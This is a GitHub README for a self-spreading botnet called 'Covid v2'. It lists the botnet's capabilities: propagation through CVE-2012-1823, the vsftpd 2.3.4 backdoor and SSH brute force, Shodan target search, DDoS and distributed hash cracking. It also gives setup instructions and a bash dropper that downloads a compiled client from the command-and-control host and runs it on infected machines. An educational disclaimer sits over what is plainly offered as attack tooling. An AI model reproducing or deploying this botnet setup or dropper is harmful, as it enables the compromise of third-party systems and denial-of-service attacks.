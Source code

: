 # Covid v2 Botnet
***This software is provided under the MIT license

***Disclaimers: this botnet is for educational purpose and ethical use only! any other use is on the user's own responsibility, and we are not responsible for any of the user's usage of it!***

**What can it do?**
- attack targets by a list
- attack targets on local network with a scanner
- spread through CVE-2012-1823 (php-cgi Argument Injection)
- spread through CVE-2011-2523 (vsftpd 2.3.4 backdoor)
- spread through SSH Brute Force
- search targets on shodan
- ddos spesific target (basic one with stop option)
- recognize a given hash and crack it using a word list
- save bots and targets lists into json file

![Botnet Help Command](gifs/1B477A4D-9C7F-4173-8911-4CBA80492C54.GIF)

**How to use?**

1. download the project

2. configure the cnc ip and cnc port on client.py and server.py

3. add shodan api token

4. configure the wordlist in client.py and configure the wordlist length in server.py

5. create an installation file to make the target get infected and configure it on server.py and client.py
for example:

use a python compiler to compile client.py,
then create a bash script that downloads the chosen wordlist, the compiled client and runs the client:
```
#!/bin/bash
cnc_ip="your cnc"
executable="created executable with python compiler"
wordlist="your configured wordlist location"
wget http://$cnc_ip/$executable
wget http://$cnc_ip/$wordlist
chmod 777 $executable
./$executable
```
configure the bash file name under executable in server.py and client.py

6. run the server.py and attack your targets!

**Attack example:**

the attack is used on 3 local ips:
 
- 192.168.10.16 - Vunerable to CVE-2012-1823

- 192.168.10.18 - Vunerable to SSH Brute Force

- 192.168.10.20 - Vunerable to CVE-2011-2523

![Botnet Attack Example](gifs/3B4C1644-0690-4EAF-AA87-D2BB0C56800E.GIF)

**Hash cracking example**

the cracking is used on 3 infected bots and tries to crack md5 hash of "admin"

![Botnet Crack Hash Example](gifs/2518F02C-C205-4B92-A478-F97B7573475E.GIF)
